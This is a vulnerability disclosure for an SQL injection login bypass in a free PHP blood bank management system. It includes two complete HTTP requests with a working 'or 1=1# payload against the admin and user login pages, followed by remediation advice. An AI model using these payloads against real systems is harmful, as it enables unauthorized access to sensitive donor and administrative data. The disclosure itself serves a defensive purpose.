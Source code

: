 ## Itsourcecode Online Blood Bank Management Authentication Bypass via SQL  Injection to User page and Admin Console

### Affected Product

Online Blood Bank Management System in PHP with Source Code

### Vendor Homepage
[https://itsourcecode.com/free-projects/php-project/online-blood-bank-management-system-in-php-with-source-code/](https://itsourcecode.com/free-projects/php-project/online-blood-bank-management-system-in-php-with-source-code/)

### Version

1.0

### Vulnerable Software

[https://itsourcecode.com/wp-content/uploads/2021/02/Blood-Bank-Management-System-in-Php-with-Source-Code-1.zip](https://itsourcecode.com/wp-content/uploads/2021/02/Blood-Bank-Management-System-in-Php-with-Source-Code-1.zip)

### Requirements

There are no requirements for authentication to perform this attack.  

### Problem

Authentication Bypass via SQL Injection

### Root Cause
A SQL injection vulnerability was found in the '/admin/index.php' file and the '/index.php file' of the 'Online Blood Bank Management System' project. The reason for this issue is that attackers inject malicious code from the parameter "user" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations, allowing access to both the user console page as well as the admin user page. 

### Impact
Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, unauthorized administrative functions, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# Description

In Version 1.0 of the Online Blood Bank Management System application, a SQL injection vulnerability was found in the '/admin/index.php' file and the '/index.php file' of the 'Online Blood Bank Management System' project. The reason for this issue is that attackers inject malicious code from the parameter "user" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations, allowing access to both the user console page as well as the admin user page. 

**_No login or authorization is required to exploit this vulnerability_**

# Proof-of-Concept

## Working Payloads

### Admin Console

```
POST /bloodbank/admin/index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/bloodbank/admin/index.php
Cookie: PHPSESSID=6bp6hj4uabm82gml4a6qmmqrff
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tab=on&user='or+1%3d1%23&pass=test&sub=Sign+In

```

### User Console

```
POST /bloodbank/login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/bloodbank/login.php
Cookie: PHPSESSID=6bp6hj4uabm82gml4a6qmmqrff
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tab=on&user='or+1%3d1%23&pass=test&sub=Sign+In

```

## Remediation Guidance

Use prepared statements and parameter binding:
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

Input validation and filtering:
Strictly validate and filter user input data to ensure it conforms to the expected format.

Minimize database user permissions:
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

Regular security audits:
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.